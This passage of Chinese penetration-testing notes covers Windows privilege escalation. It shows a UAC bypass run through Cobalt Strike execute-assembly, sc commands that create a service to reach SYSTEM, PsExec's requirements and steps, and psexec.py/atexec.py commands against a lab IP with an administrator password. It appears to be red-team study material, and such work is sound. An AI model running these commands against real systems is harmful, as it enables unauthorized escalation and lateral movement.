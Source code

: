 ### 申请UAC弹窗钓鱼  
`https://github.com/cnsimo/BypassUAC`  
利用`Autoelevated`属性的`COM`借口配合PEB伪装实现`BypassUAC`，分成了`C`和`C#`版本  
```  
受害机使用  
uac.exe C:\Users\dev\Desktop\artifact.exe  
  
cobalstrike使用  
execute-assembly /root/uac.exe C:\Users\dev\Desktop\artifact.exe  
execute C:\Users\dev\Desktop\uac.exe C:\Users\dev\Desktop\artifact.exe  
```  
### ElevateKit使用  
`https://github.com/rsmudge/ElevateKit/`  
## Windows Service提权  
### 原理简介  
- 在拥有administrator权限之后利用windows系统服务可以将目前权限提升为`system`  
- 利用的是windows系统服务将会以system权限去启动服务的特性  
例如以下最原始的操作  
```  
设置程序路径  
sc create &#34;scAutoRunTest&#34; binpath=&#34;cmd /c start /b C:\Users\Public\scAutoRunTest.exe&#34;  
设置对服务的描述  
sc description &#34;scAutoRunTest&#34; &#34;scAutoRunTest&#34;  
设置这个服务为自动启动  
sc config &#34;scAutoRunTest&#34; start=auto  
启动服务  
net start &#34;scAutoRunTest&#34;  
sc start &#34;scAutoRunTest&#34;  
  
删除服务  
sc delete scAutoRunTest  
```  
### psexec原理&amp;使用  
PsExec利用某一个账号，通过SMB协议连接远程机器的命名管道(基于SMB的RPC)，在远程机器上创建并启动一个名为`PSEXESVC`服务，从而获得了system权限。  
**使用PsExec的最低要求**  
```  
1、远程机器的139或445端口要开启状态，即SMB  
2、明文密码或者NTLM哈希  
3、具备将文件写入共享文件夹的权限  
4、能够在远程机器上创建服务：SC_MANGER_CREATE_SERVICE(访问掩码:0x0002)  
5、能够启动所创建的服务：SERVICE_QUERY_STATUS(访问掩码:0x0004)&#43;SERVICE_START(访问掩码:0x0010)  
```  
**整个服务**  
- 将`PSEXESVC.exe`上传到`ADMIN$`(指向`/admin$/system32.PSEXESVC.EXE`)共享文件夹内；  
- 远程创建用于运行`PSEXESVC.exe`的服务  
- 远程启动服务  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202503202043757.png)
**psexec的使用**  
`python3 psexec.py &#39;administrator:password&#39;@192.168.135.135`  
### atexec 原理&amp;使用  
`https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202503202050776.png)
atexec的原理类似，利用administrator账号权限去创建一个以system权限运行的计划任务从而达到administrator-&gt;system的效果  
`python3 atexec.py &#39;administrator:password&#39;@192.168.135.135 whoami`  
  